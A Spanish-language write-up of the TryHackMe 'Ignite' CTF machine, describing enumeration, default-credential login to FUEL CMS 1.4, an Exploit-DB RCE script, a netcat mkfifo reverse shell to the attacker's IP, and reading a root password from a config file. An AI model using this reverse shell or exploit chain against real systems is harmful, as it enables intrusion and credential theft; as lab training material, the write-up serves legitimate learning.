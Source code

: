 ```yaml
---
title: "Ignite - Writeup"
date: 2025-03-12
author: "Eric González"
categories: 
  - TryHackMe
tags:
  - Fácil
  - CTF
image: "https://github.com/user-attachments/assets/6fc50d8c-a641-43f2-a520-4408870d642a"

---
```


![{DC58F93F-3185-4714-8695-BD88B891E8DF}](https://github.com/user-attachments/assets/0fa46990-3c83-4472-bf45-95461e35774a)


## Introducción

**Ignite** es una máquina de nivel fácil en TryHackMe (THM) diseñada para practicar explotación del gestor de contenidos (FUEL CMS). En este writeup, analizaremos los pasos clave para comprometer la máquina, desde el reconocimiento hasta la escalación de privilegios.

## Herramientas 

* [Kali](https://www.kali.org/)
* [Nmap](https://nmap.org/)
* [dirb](https://dirb.sourceforge.net/about.html)
* [netcat](https://netcat.sourceforge.net/)

## Detalles

* Attacker IP: 10.9.2.48
* Target VM Type: TryHackMe
* Target IP: 10.10.74.195
* Target Network: TryHackMe VPN

## Enumeración

Comenzamos con un escaneo de puertos con `nmap` para identificar servicios en ejecución:

```bash
nmap -sS --min-rate 5000 -n -Pn 10.10.74.195
```

![{F7095E70-37E1-4E45-8520-7D815AFEEE71}](https://github.com/user-attachments/assets/cce5e0f0-2a74-4c1e-be1a-2cbdc17b7922)


```bash
nmap -sCV --min-rate 5000 -p80 -n -Pn 10.10.74.195
```

![{D4E29788-6ED1-4C2F-962D-3BA81C391089}](https://github.com/user-attachments/assets/cdfbc61b-f17b-4cb8-b6dd-ecfeb88120bc)


Vemos que hay un servicio web, le tiramos un `whatweb` para obtener información y vemos el título de **FUEL CMS**, vamos a ver de que se trata.

```bash
whatweb http://10.10.74.195/
```
![{912AA099-15C6-41B6-BD4B-206A6B3872ED}](https://github.com/user-attachments/assets/1661bd15-2170-4cbb-aafd-5fda784fc253)

Accedemos dentro del servicio web a ver de que se trata, y vemos que efectivamente se trata del gestor de contenidos `Fuel`, de version `1.4`.

![{C2E78ABF-884A-495C-BF8C-616E271669C5}](https://github.com/user-attachments/assets/f806be25-84a2-4158-83d1-4476afdb5008)

Si bajamos un poco nos da información sobre el panel de administración y la contraseña por defecto.

![{9E9804CC-0EAA-452B-B7FE-919E8B39151D}](https://github.com/user-attachments/assets/036a541c-8fe5-48a4-82f5-ebdd7443960b)

Vamos a tratar de acceder.

![{84F2E50F-00E6-4F67-AACE-FB0FBC580144}](https://github.com/user-attachments/assets/5810bd3a-1c2d-45f7-afc9-554dc29c5d5e)

Vemos que estamos dentro del panel de administración... Muy sencillo no?.

![{FFB207F0-9619-4CB6-B27C-B162F87B7115}](https://github.com/user-attachments/assets/9db4ee9c-3a38-42fb-8b20-c93a3ee15b87)


## Explotación

El objetivo aquí es tener acceso por consola y escalar privilegios dentro del sevidor, así que como anteriormente vimos la versión del CMS vamos a buscar un exploit que nos pueda servir... 
Y efectivamente tenemos uno que nos puede ir bien!.

![{1CDF0191-55F7-498C-B987-AA85B15E334B}](https://github.com/user-attachments/assets/054b54cd-f414-4c6c-8327-44b13d3881ff)

Lo descargamos y modificamos la `IP` para apuntar al servidor, también eliminamos la linea de `proxy` ya que no será necesario.

```bash
wget https://www.exploit-db.com/raw/47138
```

![{6614E678-5BBF-4D1F-8E49-BD1F2B630CB9}](https://github.com/user-attachments/assets/8c7f31fc-0d09-4c6b-b2d0-ff40a85af682)

![{5A7BBC30-6746-4B63-BF39-56BF26895008}](https://github.com/user-attachments/assets/7ec532d1-c26c-4056-863d-518f616b1b32)


Ejecutamos el script, y a través del parámetro **cmd:** podemos ejecutar comandos y acontecer un `RCE`, aunque no funciona del todo bien.

![{50447B06-53A0-4DD9-BE49-189EACDC88E2}](https://github.com/user-attachments/assets/b976c2fd-f156-4211-93fe-e4adf2f1a388)

Vamos a generar una reverse shell a la vez que nos ponemos en escucha por el puerto que queramos, en mi caso el `443`

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.48 443 > /tmp/f
```

![{22137FFE-4681-4069-956B-240A3AD5F01F}](https://github.com/user-attachments/assets/c988e414-b6c7-42c1-8408-4c3d5f8ac6eb)


## Post Explotación

Una vez dentro del sistema vamos a escalar provilegios, anteriormente en la web vimos rutas que nos llamaron la atención.
Ya que nos habla de la instal·lación de la base de datos.

![{DDA7C2F5-46FF-4883-A5D7-95F471E7D786}](https://github.com/user-attachments/assets/895cb934-3149-4cf6-9960-b8217ecb2288)

Vamos a investigar el archivo **database.php** y que sorpresa... 
Vemos la contraseña de root expuesta.

```bash
cat fuel/application/config/database.php
```

![{4AD81C04-14FA-46A9-B0D3-FFF762AF4FE0}](https://github.com/user-attachments/assets/662805e7-8929-4543-b6b6-81d0f60223a0)

Nos convertimos en root usando la contraseña que hemos obtenido y ya podriamos leer las flags.

![{45A5B673-9702-4BBC-B17D-6F1D81DE15CF}](https://github.com/user-attachments/assets/e79a592f-1980-477c-a5ca-80596c0af11e)
